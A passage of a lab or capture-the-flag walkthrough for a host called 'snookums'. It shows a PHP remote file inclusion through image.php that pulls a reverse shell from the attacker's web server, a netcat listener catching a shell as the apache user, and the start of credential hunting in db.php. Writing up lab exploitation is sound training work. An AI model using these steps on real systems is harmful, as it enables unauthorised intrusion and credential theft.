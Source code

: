 ## Exploitation

### Remote Code Execution

We will use `/usr/share/webshells/php/php-reverse-shell.php` as our payload, replacing lines 49 and 50 with our web server’s IP address and the listening port that will catch our shell.

```
$ip = '192.168.118.3';  // CHANGE THIS
$port = 445;       // CHANGE THIS
```

Next, we’ll start a python web server on port 80.

```
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Let’s set up a netcat listener on port 445 to catch the shell. Then,  with everything in place, we’ll run the exploit by browsing to http://192.168.120.135/image.php?img=http://192.168.118.3/shell.php, which executes and returns our reverse shell:

```
kali@kali:~$ sudo nc -lvp 445
listening on [any] 445 ...
192.168.120.135: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.135] 46238
Linux snookums 3.10.0-1127.10.1.el7.x86_64 #1 SMP Wed Jun 3 14:28:03 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:59:07 up 2 min,  0 users,  load average: 0.07, 0.09, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh-4.2$
```

## Escalation

### MySQL Credentials Recovery

An inspection of the target reveals a useful **/var/www/html/db.php** file that contains MySQL root user credentials:

```
sh-4.2$ cd /var/www/html && ls -lah
cd /var/www/html && ls -lah
total 76K
drwxr-xr-x. 8 root root 4.0K Jun 10 10:54 .
drwxr-xr-x. 4 root root   33 Jun  9 10:17 ..
-rw-r--r--. 1 root root 4.0K Jun  8 13:46 README.txt
-rw-r--r--. 1 root root 1.7K Jun  8 13:46 UpgradeInstructions.txt
drwxr-xr-x. 2 root root   44 Jun 10 09:32 css
-rw-r--r--. 1 root root  146 Jun  8 14:45 db.php
-rw-r--r--. 1 root root 6.3K Jun  8 13:46 embeddedGallery.php
-rw-r--r--. 1 root root 2.1K Jun  8 13:46 functions.php
-rw-r--r--. 1 root root 4.5K Jun  8 13:57 image.php
drwxr-xr-x. 3 root root  225 Jun 10 09:32 images
-rw-r--r--. 1 root root 2.7K Jun 10 10:36 index.php
drwxr-xr-x. 2 root root  142 Jun 10 09:32 js
-rw-r--r--. 1 root root  19K Jun  8 13:46 license.txt
drwxr-xr-x. 2 root root    6 Jun 10 10:23 photos
-rw-r--r--. 1 root root 1.6K Jun  8 13:46 phpGalleryConfig.php
```